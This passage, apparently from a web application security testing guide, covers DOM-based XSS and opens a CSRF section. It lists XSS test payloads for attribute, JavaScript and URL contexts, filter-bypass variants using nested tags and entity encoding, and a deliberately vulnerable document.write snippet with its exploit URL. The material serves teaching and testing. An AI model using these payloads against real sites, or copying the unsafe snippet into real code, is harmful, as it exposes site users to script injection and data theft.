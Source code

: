 3. **DOM-based XSS**:
   - Technique: Exploiting client-side JavaScript that processes data unsafely
   - Impact: Client-side manipulation, data theft
   - Testing: Analyzing client-side code, manipulating DOM sources
   - Prevention: Safe JavaScript practices, avoiding dangerous functions

```html
<!-- Example: XSS testing payloads -->

<!-- Basic XSS test -->
<script>alert('XSS')</script>

<!-- HTML attribute context -->
" onmouseover="alert('XSS')" "
' onmouseover='alert("XSS")' '
" autofocus onfocus="alert('XSS')" "

<!-- JavaScript context -->
'-alert('XSS')-'
\';alert('XSS');//

<!-- URL context -->
javascript:alert('XSS')

<!-- HTML5 contexts -->
<img src="x" onerror="alert('XSS')">
<body onload="alert('XSS')">
<svg onload="alert('XSS')">
<iframe src="javascript:alert('XSS')">

<!-- Bypass filters -->
<scr<script>ipt>alert('XSS')</scr</script>ipt>
<IMG SRC=j&#X41vascript:alert('XSS')>
<img src=x onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;('XSS')>

<!-- DOM XSS test -->
<!-- For URL fragment like example.com/page#name=value -->
<script>
// Vulnerable code
var pos = document.URL.indexOf("name=") + 5;
var name = document.URL.substring(pos, document.URL.length);
document.write("Hello, " + name);
</script>

<!-- Payload: example.com/page#name=<img src=x onerror=alert('XSS')> -->
```

### 3.4 Cross-Site Request Forgery (CSRF)

Exploiting applications that trust requests from authenticated users:

1. **CSRF Mechanics**:
   - Technique: Forcing users to perform unwanted actions on sites they're authenticated to
   - Impact: Unauthorized actions, data modification, account takeover
   - Testing: Creating cross-domain requests that perform actions
   - Prevention: Anti-CSRF tokens, SameSite cookies, custom headers
